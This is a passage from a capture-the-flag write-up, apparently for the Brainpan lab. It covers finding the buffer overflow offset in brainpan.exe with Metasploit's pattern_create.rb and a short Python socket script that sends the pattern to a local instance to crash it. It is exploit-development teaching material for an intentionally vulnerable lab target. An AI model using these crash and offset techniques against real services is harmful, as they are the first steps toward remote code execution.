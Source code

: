 ![](/assets/img/thm/linux/brainpan/debugger.png)

### Step 2: Finding the offset

Now, we want to know: how much characters do we need at least to crash the program? 

This amount is called the **offset**. In order to find it, we can rely on two Metasploit scripts (called `pattern_create.rb` and `pattern_offset.rb`) or simply go manually.   

#### Method#1: `pattern_create` + `pattern_offset`

- We create a pattern of 529 characters with `pattern_create.rb`:

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 529 > pattern.txt
```

- We send this pattern to our wine local instance of `brainpan.exe`:

```python
import socket
import time

target = '127.0.0.1'
port = 9999

with open("pattern.txt") as f:
    buffer = f.read().strip().encode()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```
